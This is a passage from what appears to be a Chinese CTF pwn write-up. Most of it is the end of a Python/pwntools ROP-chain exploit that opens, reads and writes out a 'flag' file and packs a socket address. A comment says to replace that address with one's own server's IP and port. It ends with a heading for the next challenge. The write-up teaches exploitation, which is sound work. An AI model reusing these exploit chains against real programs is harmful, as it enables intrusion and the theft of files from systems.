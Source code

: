 ```python
payload += p64(pop_rsi)
payload += p64(1)
payload += p64(pop_rax)
payload += p64(33)
payload += p64(syscall_ret)
# open flag
payload += p64(pop_rdi)
payload += p64(0x4038d0)# 'flag'
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(2)
payload += p64(syscall_ret)
#read(rax,0x403400,0x100)
payload += p64(push_rax_pop_rcx)
payload += p64(mov_rdi_rcx)
payload += p64(pop_rsi)
payload += p64(0x403400)
payload += p64(pop_rdx)
payload += p64(0x100)
payload += p64(pop_rax)
payload += p64(0)
payload += p64(syscall_ret)
#write(1,0x403400,0x100)
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(syscall_ret)
payload = payload.ljust(0x1d0,"a")
payload += "flag\x00\x00\x00\x00"
payload += "\x00"*8
# 127.0.0.1 1000
# 这里可以用
# import socket
# remote_ip = 127.0.0.1
# print int(socket.inet_aton(remote_ip),16)
#其中0100007f为127.0.0.1 e803 为03e8即1000，0002为AF_INET
payload += p64(0x70909e96e8030002)#改成⾃⼰的服务器的ip端⼝
p.recv()
p.send(payload)

p.interactive()
```

## FShuiMaster(2.27/FSOP/offbynull)

![image-20220623174815433](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220623174815433.png)

申请chunk有限制，不能申请7f/7e开头的位置，size(0x42e-0x700)
